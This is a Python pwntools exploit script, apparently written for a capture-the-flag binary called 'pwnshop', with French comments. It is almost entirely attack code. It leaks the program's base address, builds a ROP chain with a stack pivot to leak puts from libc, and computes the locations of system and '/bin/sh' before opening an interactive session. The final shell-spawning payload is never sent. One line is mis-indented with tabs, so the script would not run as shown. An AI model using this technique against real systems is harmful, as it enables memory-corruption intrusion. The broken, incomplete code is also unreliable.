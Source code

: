 ```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./pwnshop')

        #STEP 1 Leak binary address

        io.sendlineafter('\n> ', '2')
        io.sendlineafter('What do you wish to sell? ', '')
        leak_padding = b'1'*8
        io.sendafter('How much do you want for it? ', leak_padding)

        binary_offset = io.recvline().split(b'1'*8)[1].split(b'?')[0]
        binary_offset = bytearray(binary_offset).ljust(8, b'\x00')
        binary_offset = u64(binary_offset, endian='little')
        binary_offset -= 0x40c0
        log.success(f'Leaked Binary Offset: {str(hex(binary_offset))}')

        #STEP 2 Stack Pivot

        got_puts = p64(binary_offset + 0x4018) #Adresse de puts lien pointeur mémoire
        plt_puts = p64(binary_offset + 0x1030) #Adresse du pointeur de puts
        pop_rdi = p64(binary_offset + 0x13c3) #Adresse d'un pop rdi qui nous permet de ne pas juste crash
        buy_function = p64(binary_offset + 0x132a) #Adresse de la fonction buy
        padding_to_rop_chain = b'a'*40

        rop_chain = pop_rdi + got_puts + plt_puts + buy_function
        padding_to_stack_pivot = (72 - len(padding_to_rop_chain) - len(rop_chain)) * b'b'
        sub_rsp = p64(0x1219 + binary_offset) #0x1219 venant de ROPGadget

        payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp
        print(payload)

        io.sendlineafter('\n> ', '1')
        io.sendafter('Enter details: ', payload)

        leaked_puts_libc = io.recvline()[:6]
        leaked_puts_libc = bytearray(leaked_puts_libc).ljust(8, b'\x00')
        leaked_puts_libc = u64(leaked_puts_libc, endian='little')
        log.success(f'Leaked puts@GLIBCL Offset: {str(hex(leaked_puts_libc))}')

        #Find offset in LIBC
        libc_puts = 0x75e10  #ou 0x765f0
				libc_system = 0x49860 #ou 0x48e50
        libc_sh = 0x198882 #ou 18a156

        libc_offset = leaked_puts_libc - libc_puts

        system = p64(libc_offset + libc_system)
        log.info(f'Calculated System Location: {str(hex(u64(system)))}')
        sh = p64(libc_offset + libc_sh)
        log.info(f'Calculated Sh Location: {str(hex(u64(sh)))}')

        io.interactive()

if __name__ == '__main__':
        main()
```
